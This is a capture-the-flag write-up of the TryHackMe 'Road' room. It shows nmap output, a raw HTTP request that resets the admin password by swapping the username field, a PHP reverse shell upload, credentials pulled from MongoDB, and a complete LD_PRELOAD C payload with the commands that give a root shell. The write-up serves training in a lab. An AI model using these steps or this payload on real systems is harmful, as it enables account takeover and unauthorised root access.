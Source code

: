 
[TryHackMe Link](https://tryhackme.com/room/road){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 11"
    # Nmap 7.93 scan initiated Sun Jul  9 10:54:22 2023 as: nmap -sC -sV -O -oN nmap.sh 10.10.54.178
    Nmap scan report for 10.10.54.178
    Host is up (0.21s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e6dc8869dea1738e845ba13e279f0724 (RSA)
    |   256 6bea185d8dc79e9a012cdd50c5f8c805 (ECDSA)
    |_  256 ef06d7e4b165156e9462ccddf08a1a24 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Sky Couriers
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=7/9%OT=22%CT=1%CU=30556%PV=Y%DS=5%DC=I%G=Y%TM=64AA44B3
    OS:%P=aarch64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=
    OS:A)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11
    OS:NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=F4B
    OS:3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M50
    OS:8NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(
    OS:R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F
    OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T
    OS:=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RI
    OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

    Network Distance: 5 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Jul  9 10:55:07 2023 -- 1 IP address (1 host up) scanned in 45.27 seconds

  ```

## <b>Enumeration</b>

Initially when I explored Port 80, I came across this websitethat featured a Dashboard panel offering both registration and login options. 

<img id="image1" />

I decided to create a new account and logged in as a new user. However, I didn't find anything particularly interesting.

<img id="image2" />

While exploring the profile settings, I noticed an upload feature but unfortunately, it was restricted to the `Admin` user **(admin@sky.thm)**. so, I found an opportunity to reset the password for the current user, which seemed like a potential path to gain initial access. 

<img id="image3" />

## <b>Initial Access</b>

Using Burp Suite, I intercepted the request and successfully reset the password for the Admin user.

<img id="image4" />

```http linenums="1" hl_lines="18"
POST /v2/lostpassword.php HTTP/1.1
Host: 10.10.54.178
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17515829183654701604862655514
Content-Length: 649
Origin: http://10.10.54.178
Connection: close
Referer: http://10.10.54.178/v2/ResetUser.php
Cookie: PHPSESSID=rvkqhtj1t07f5fuvs3pkd1t1c3; Bookings=0; Manifest=0; Pickup=0; Delivered=0; Delay=0; CODINR=0; POD=0; cu=0
Upgrade-Insecure-Requests: 1

-----------------------------17515829183654701604862655514
Content-Disposition: form-data; name="uname"

skyacc@sky.cloud (I changed this to admin@sky.thm)
-----------------------------17515829183654701604862655514
Content-Disposition: form-data; name="npass"

1234
-----------------------------17515829183654701604862655514
Content-Disposition: form-data; name="cpass"

1234
-----------------------------17515829183654701604862655514
Content-Disposition: form-data; name="ci_csrf_token"


-----------------------------17515829183654701604862655514
Content-Disposition: form-data; name="send"

Submit
-----------------------------17515829183654701604862655514--
```

With access as Admin, I now had the ability to upload a profile image. 

<img id="image5" />

I uploaded porfile image several times, but I found it confusing that I didn't receive any explicit confirmation from UI. Also, I was not sure about the location of the uploaded files. I intercepted the request once again and observed that the file path was: `/v2/profileimages/`.

To gain an initial shell access, I used the popular **reverse shell for PHP** developed by `Pentest-Monkey`. This granted me a shell with the current user, www-data. 

<img id="image6" />

The permissions on the `user.txt` file were set as: 

```bash
-rw-r--r-- webdeveloper webdeveloper user.txt
```
Since I can open, I successfully read the `user.txt` file.

## <b>Privilege Escalation</b>

To elevate my privileges, I used **LinPeas** privilege escalation tool to gather information about the system. The scan revealed that few well-known ports were used locally -- `3306` (MySQL) and `27017` (Mongo). 

<img id="image7" />

Although I couldn't access MySQL, I had good luck with MongoDB. In one of the tables, I discovered the password for the webdeveloper account. 

```sql linenums="1" hl_lines="21"
> show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB

> use backup
switched to db backup

> show tables
collection
user

> select * from user
uncaught exception: SyntaxError: unexpected token: identifier :
@(shell):1:14

> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "REDACTED" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

Utilising this password, I established an SSH connection as the `webdeveloper` user, which allowed me to penetrate further into the system. I explored different commands that can be run through this user. To my surprise, it had 

```bash
NOPASSWD: /usr/bin/sky_backup_utility
```

<img id="image8" />

This command could be executed with the help of `LD_PRELOAD`. 

!!! info "LD_PRELOAD"
    LD_PRELOAD preloads a shared library into a program's memory space before it starts executing. you can replace or extend the functionality of standard libraries or to override certain library calls with custom implementations.


Utilising the capabilities of LD_PRELOAD, I executed this C code snippet:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

// Step 1: Compile the code and generate its object code.
// gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles 

// Step 2: Using LD_PRELOAD, preload this shared object before sky_backup_utility runs
// LD_PRELOAD=/tmp/x.so /usr/bin/sky_backup_utility
```

By compiling and executing the code above, I successfully obtained root access, where I found the root flag.

<img id="image9" />

<script>

// JSON object
const data = {
    "desc": "Inspired by a real-world pentesting engagement",
    "ip":  "10.10.54.178",
    "ports": "22/tcp,ssh,OpenSSH 8.2p1;80/tcp,http,Apache httpd 2.4.41",
    "difficulty":"medium",
    "id": "1"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>